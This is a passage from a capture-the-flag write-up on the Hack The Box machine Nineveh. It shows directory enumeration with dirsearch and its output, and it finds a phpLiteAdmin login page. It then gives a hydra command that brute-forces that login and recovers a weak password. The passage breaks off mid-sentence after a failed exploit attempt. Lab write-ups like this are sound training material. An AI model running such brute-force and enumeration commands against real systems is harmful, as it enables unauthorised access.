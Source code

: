 After enumerated HTTP and HTTP I found:

~~~
root@kali:~# dirsearch.py --url http://nineveh.htb -w /usr/share/seclists/Discovery/Web_Content/raft-large-directories.txt -e php,txt,db,js

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt, db, js | Threads: 10 | Wordlist size: 62279

Error Log: /opt/dirsearch/logs/errors-18-02-06_04-45-25.log

Target: http://nineveh.htb

[04:45:25] Starting: 
[04:46:04] 403 -  299B  - /server-status
[04:46:23] 301 -  315B  - /department  ->  http://nineveh.htb/department/
[04:46:43] 200 -  178B  - /

Task Completed
root@kali:~# dirsearch.py --url https://nineveh.htb -w /usr/share/seclists/Discovery/Web_Content/raft-large-directories.txt -e php,txt,db,js

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt, db, js | Threads: 10 | Wordlist size: 62279

Error Log: /opt/dirsearch/logs/errors-18-02-06_04-59-00.log

Target: https://nineveh.htb

[04:59:01] Starting: 
[04:59:04] 301 -  309B  - /db  ->  https://nineveh.htb/db/
[04:59:41] 403 -  300B  - /server-status
[05:00:21] 200 -   49B  - /

Task Completed
~~~

There was phpLiteAdmin v1.9 on https://nineveh.htb/db/index.php: 

![Screenshot]({{ site.baseurl }}/images/2018-02-05-htb-nineveh/img1.png)

I tried to bruteforce the login with hydra:

~~~
hydra -l '' -P rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."
[443][http-post-form] host: nineveh.htb   password: password123
~~~

I found [this](https://www.exploit-db.com/exploits/24044/) vulnerability but it didn't work because the path of the saved db (/var/tmp/syrion.php) was not in the directories of the web server. I tried to move the db in /var/www/, /var/www/html and /var/www/ssl but I got this error:
